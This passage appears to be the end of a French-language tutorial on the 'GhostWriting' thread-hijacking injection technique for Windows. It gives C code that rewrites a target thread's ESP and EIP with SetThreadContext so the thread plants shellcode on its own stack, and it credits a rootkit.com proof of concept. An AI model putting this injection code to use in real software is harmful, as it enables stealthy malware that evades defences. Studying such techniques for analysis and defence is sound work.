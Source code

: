```
 
    /********************************  <= hAddrBase
    /*     Adresse de notre jmp     */
    /********************************/
    /*     Notre                    */
    /*              Routine         */
    /********************************/
    /*             VIDE             */
    /********************************  <= Esp à l'origine
    /*     Pile du thread cible     */
    /*                              */
 
    (DWORD)*(DWORD *)&sc[6] = hAddrBase + 4;      //On remplit notre routine avec l'adresse de la chaine "oO"
 
    *SrcReg = AutoLock;
    *DstReg = hAddrBase - OffsetMov;
 
    // mov [hAddrBase - OffsetMov + OffsetMov], AutLock
 
    Context.Esp = hAddrBase - OffsetEsp;      //Avant le RET, ESP pointe sur hAddrBase et dans hAddrBase on trouve l'adresse de notre JMP $
    Context.Eip = GoodMov;                    //Re-direction du thread sur notre MOV
 
    if(!SetThreadContext(hThread,&Context))goto exit;      //C'est parti ....
```
Il faut vérifier si notre thread est bloqué à notre autolock, rien de plus simple :
```
void WaitEip(HANDLE hThread, DWORD Eip)
{
    CONTEXT Context;
    Context.ContextFlags = CONTEXT_CONTROL;
    do
    {
        if(!GetThreadContext(hThread, &Context)) return;
    }
    while(Context.Eip != Eip);
}
```
Je pense que vous avez maintenant compris le principe de cette technique. J’ai enlever le passage sur la protection DEP afin de raccourcir le code.  

[GhostWriting.cpp](GhostWriting.cpp)  

Mon code est à but pédagogique et non pour faire mieux que le POC **c0de90e7**.  
Attention il est possible de tomber sur un thread des gestions des messages Windows, en quel cas il faudra faire un PostMessage mais je vous laisse le plaisir de regarder l’article sur RootKit.com pour ca.  

__*Greetz:*__  
mxatone, ivanlef0u, n0cte.  
Et à m0m0, Nyxem pour avoir corrigé mon français.  

__*References*:__  
http://rootkit.com/newsread.php?newsid=689  
http://www.sandpile.org/ia32/opc_rm32.htm  
Intel _Volume2x_Instruction Set Reference.pdf